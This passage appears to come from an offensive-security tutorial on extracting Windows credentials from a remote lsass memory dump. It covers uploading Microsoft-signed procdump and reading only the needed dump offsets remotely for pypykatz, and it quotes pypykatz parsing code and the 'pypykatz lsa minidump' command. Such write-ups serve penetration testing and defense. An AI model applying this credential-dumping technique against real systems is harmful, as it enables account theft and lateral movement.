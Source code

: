 We will keep using pypykatz to extract credentials from the lsass dump. Since we only want procdump to be uploaded the the remote host because of it being signed by Microsoft, we can’t upload pypykatz.

Having this in mind, here is the method we will use: In order to analyze a local dump, pypykatz must open the file and read bytes at different offsets. Pypykats doesn’t read much data. It just needs to read specific amount of data at specific offsets.

To make this more efficient, the idea is to read these offsets and these addresses remotely, on the dump located on the remote target, and to only download the few pieces of dump which contain the expected information.

So let’s look at how pypykatz works. The command line we have been using so far is the following :

	pypykatz lsa minidump lsass.dmp

In pypykate, the `LSACMDHelper` class handles the `lsa` argument. When we provide it with an lsass dump, `run()` method is called. This piece of code can be found in this method :

	*###### Minidump
	*elif args.cmd == 'minidump':
	    if args.directory:
	        dir_fullpath = os.path.abspath(args.memoryfile)
	        file_pattern = '*.dmp'
	        if args.recursive == True:
	            globdata = os.path.join(dir_fullpath, '**', file_pattern)
	        else:
	            globdata = os.path.join(dir_fullpath, file_pattern)

	        logging.info('Parsing folder %s' % dir_fullpath)
	        for filename in glob.glob(globdata, recursive=args.recursive):
	            logging.info('Parsing file %s' % filename)
	            try:
	                mimi = pypykatz.parse_minidump_file(filename)
	                results[filename] = mimi
	            except Exception as e:
	                files_with_error.append(filename)
	                logging.exception('Error parsing file %s ' % filename)
	                if args.halt_on_error == True:
	                    raise e
	                else:
	                    pass

lsass dump parsing is achieved at this line :

	mimi = pypykatz.parse_minidump_file(filename)

This method is defined in `pypykatz.py` file :

	from minidump.minidumpfile import MinidumpFile
	"""
	<snip>
	"""
	@staticmethod
	def parse_minidump_file(filename):
	    try:
	        minidump = MinidumpFile.parse(filename)
	        reader = minidump.get_reader().get_buffered_reader()
	        sysinfo = KatzSystemInfo.from_minidump(minidump)
	    except Exception as e:
	        logger.exception('Minidump parsing error!')
	        raise e
	    try:
	        mimi = pypykatz(reader, sysinfo)
	        mimi.start()
	    except Exception as e:
	        *#logger.info('Credentials parsing error!')
	*        mimi.log_basic_info()